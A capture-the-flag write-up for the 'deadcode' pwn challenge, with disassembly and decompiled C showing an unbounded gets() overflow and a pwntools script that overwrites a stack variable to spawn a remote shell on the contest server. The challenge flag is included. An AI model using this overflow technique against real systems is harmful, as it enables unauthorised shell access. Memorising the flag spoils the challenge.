

## Mitigations

```
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
```

## Solution

no pie enable. so we can simply overwrite.

note that there are `gets` without length, which can perform **buffoverflow**



since s is above var_8h, we can write random 16 bytes + 0xdeadc0de in 8 bytes to overwrite var_8h to value of 0xdeadc0de, which will lead us to the shell.

<!-- more -->

```
nt main (int argc, char **argv, char **envp);
; var char *s @ rbp-0x20
; var uint64_t var_8h @ rbp-0x8
0x00401195      push    rbp
0x00401196      mov     rbp, rsp
0x00401199      sub     rsp, 0x20
0x0040119d      mov     qword [var_8h], 0
0x004011a5      mov     eax, 0
0x004011aa      call    buffer_init ; sym.buffer_init
0x004011af      lea     rdi, str.I_m_developing_this_new_application_in_C__I_ve_setup_some_code_for_the_new_features_but_it_s_not__a_live_yet. ; 0x402008 ; const char *s
0x004011b6      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x004011bb      lea     rdi, str.What_features_would_you_like_to_see_in_my_app ; 0x402078 ; const char *s
0x004011c2      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x004011c7      lea     rax, [s]
0x004011cb      mov     rdi, rax   ; char *s
0x004011ce      mov     eax, 0
0x004011d3      call    gets       ; sym.imp.gets ; char *gets(char *s)
0x004011d8      mov     eax, 0xdeadc0de
0x004011dd      cmp     qword [var_8h], rax
0x004011e1      jne     0x401200
0x004011e3      lea     rdi, str.Maybe_this_code_isn_t_so_dead... ; 0x4020a8 ; const char *s
0x004011ea      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x004011ef      lea     rdi, str.bin_sh ; 0x4020cb ; const char *string
0x004011f6      mov     eax, 0
0x004011fb      call    system     ; sym.imp.system ; int system(const char *string)
0x00401200      mov     eax, 0
0x00401205      leave
0x00401206      ret

```

```
undefined8 main(void)
{
    char *s;
    uint64_t var_8h;
    
    var_8h = 0;
    buffer_init();
    puts(
        "\nI\'m developing this new application in C, I\'ve setup some code for the new features but it\'s not (a)live yet."
        );
    puts("\nWhat features would you like to see in my app?");
    gets(&s);
    if (var_8h == 0xdeadc0de) {
        puts("\n\nMaybe this code isn\'t so dead...");
        system("/bin/sh");
    }
    return 0;
}
```

## Exploits

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=pwn-2021.duc.tf' '--port=31916' deadcode
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('deadcode')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31916)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()
import os

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
print(io.recv(1024))
io.send(os.urandom(0x20-0x8)+(0xdeadc0de).to_bytes(0x8,"little"))
io.interactive()
```

DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}